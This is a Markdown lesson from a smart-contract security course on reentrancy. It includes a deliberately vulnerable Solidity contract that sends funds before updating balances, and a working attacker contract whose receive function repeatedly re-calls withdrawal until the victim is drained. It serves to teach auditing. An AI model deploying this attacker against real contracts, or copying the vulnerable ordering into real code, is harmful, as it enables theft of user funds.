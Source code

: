```yaml
---
title: Exploit - Reentrancy
---
```


_Follow along with this video:_

---

Let's see if we can nail down this vulnerability. When we'd run `Slither` earlier, you may recall it had actually found something...

Run it again and we'll have a closer look.

```bash
slither .
```

Looking through the output, we can see `Slither` is in fact detecting things in our `refund` function!

![exploit-reentrancy1](/security-section-4/18-exploit-reentrancy/exploit-reentrancy1.png)

### What is a re-entrancy attack and how does it work?

For this lesson, we'll be heavily leaning on our [**sc-exploits-minimized**](https://github.com/Cyfrin/sc-exploits-minimized) repo for diagrams and examples to reference. Be sure to clone it so you can see how these vulnerabilities work locally.

Here's our example contract:

```js
contract ReentrancyVictim {
    mapping(address => uint256) public userBalance;

    function deposit() public payable {
        userBalance[msg.sender] += msg.value;
    }

    function withdrawBalance() public {
        uint256 balance = userBalance[msg.sender];
        // An external call and then a state change!
        // External call
        (bool success,) = msg.sender.call{value: balance}("");
        if (!success) {
            revert();
        }

        // State change
        userBalance[msg.sender] = 0;
    }
}
```

Fairly simple. Under normal circumstances

User A (balance 10 ether) can deposit funds

1. deposit{value: 10 ether}

```js
userBalance[UserA] = 10 ether
contract balance = 10 ether
User A balance = 0 ether
```

And then withdraw them

2. withdrawBalance

```js
userBalance[UserA] = 0 ether
contract balance = 0 ether
User A balance = 10 ether
```

The order of operations is really important in these situations. In our `withdrawBalance` function, we see that the function is making an external call _before_ updating the state of the contract.

What this means, is that an attacker could have that external call be made in such a way that it triggers a call of the `withdrawBalance` function again (hence - reentrancy).

```js
contract ReentrancyAttacker {
    ReentrancyVictim victim;

    constructor(ReentrancyVictim _victim) {
        victim = _victim;
    }

    function attack() public payable {
        victim.deposit{value: 1 ether}();
        victim.withdrawBalance();
    }

    receive() external payable {
        if (address(victim).balance >= 1 ether) {
            victim.withdrawBalance();
        }
    }
}
```

Consider the above attack contract. Seems pretty benign, but let's walk through what's actually happening.

1. Attacker calls the attack function which deposits 1 ether, then immediately withdraws it.

```js
function attack() public payable {
        victim.deposit{value: 1 ether}();
        victim.withdrawBalance();
    }
```

2. The `ReentrancyVictim` contract does what's it's supposed to and received the deposit, then process the withdrawal. During this process the victim contract makes a call to the attacker's contract.

**NOTE: THIS IS BEFORE OUR BALANCE HAS BEEN UPDATED**

```js
(bool success,) = msg.sender.call{value: balance}("");
        if (!success) {
            revert();
        }
```

What happens when a contract receives value? It's going have it's receive/fallback functions triggered. And what does our Attacker's receive function look like?

```js
receive() external payable {
        if (address(victim).balance >= 1 ether) {
            victim.withdrawBalance();
        }
    }
```

It calls the `withdrawBalance` function again! Because our previous `withdrawBalance` hasn't updated our balance yet, the contract will happily let us withdraw again.. and again .. and again until all funds are drained.

Let's look at this all put together.

![exploit-reentrancy2](/security-section-4/18-exploit-reentrancy/exploit-reentrancy2.png)

### Wrap Up

Re-entrancy is a a big deal and it's very impactful when it happens. We're really going to nail down our understanding of this attack vector before moving on.

At it's most minimalistic, re-entrancy generates a loop that continually drains funds from a protocol.

![exploit-reentrancy3](/security-section-4/18-exploit-reentrancy/exploit-reentrancy3.png)

Our next lesson is going to be a hands on example of this vulnerability in Remix. Let's see what this exploit is like in action.
